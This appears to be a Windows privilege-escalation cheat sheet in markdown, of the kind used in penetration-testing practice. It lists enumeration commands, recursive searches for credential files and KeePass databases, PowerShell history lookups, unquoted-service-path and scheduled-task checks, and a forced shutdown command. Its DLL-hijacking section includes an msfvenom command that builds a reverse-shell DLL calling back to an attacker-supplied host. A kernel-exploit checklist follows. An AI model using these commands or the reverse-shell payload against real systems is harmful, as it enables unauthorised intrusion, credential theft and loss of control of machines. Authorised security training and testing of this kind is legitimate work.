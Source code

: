 ### System and User Enumeration

```
#User
whoami /priv
net user <username>

#System
systeminfo
ipconfig
```

### Search for Information
##### Searching Folders

```
#Specific File Types
Get-ChildItem -Path C:\<folder>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini, *bk, *backup*, -File -Recurse -ErrorAction SilentlyContinue

#All Files in Folder
Get-ChildItem -Path C:\<folder>\ -File -Recurse -ErrorAction SilentlyContinue

#Specific file name
Get-ChildItem -Path C:\ -Filter '<filename>' -File -Recurse -ErrorAction SilentlyContinue

#Keepass Database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
##### Searching History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```
### Automation
```

```
### Services
##### Running Services
```
#Services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

$AutoRun Services
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.StartMode -like 'Auto'}
```

##### Unquoted Service Paths
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

Get-WmiObject -Class Win32_Service | Where-Object { $_.State -eq 'Running' -and $_.PathName -notlike '*"*' } | Select-Object Name, PathName
```

##### Scheduled Tasks
```
schtasks /query /fo LIST /v
```

##### Shutting Down System
```
#Check SeShutdownPrivilege enabled
whoami /priv  

#Shuts system down
shutdown /r /t 0
```

##### Checking Permissions
```
#Check file and folder
icacls "C:\<service.exe>"
icacls "C:\<folder>\"

#check service start / stop
net stop <service_name>
Stop-Service <service_name>
```

##### DLL Hijacking
```
Check can service be stopped and started.
Copy the service executable to your host and use ProcMon to monitor what DLLs the executable tries to run.
	Filter NAME NOT FOUND
	Filter .DLL
Check folder or path it is searching is writable.
Upload malicious executable. (msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f dll -o /tools/hijackme.dll)
Restart the service.
```

### Kernel Exploits

```
Methodology
1. Enumerate Windows version / patch level. (systeminfo)
2. Find matching exploits. (Google, ExploitDB, GitHub)
3. Compile and run.

Tools
- Windows Exploit Suggester - wesng
- Precompiled Kernel Exploits - SecWiki
- Watson - rasta-mouse

Notes
- Be careful these can be unstable and may crash the system.
```
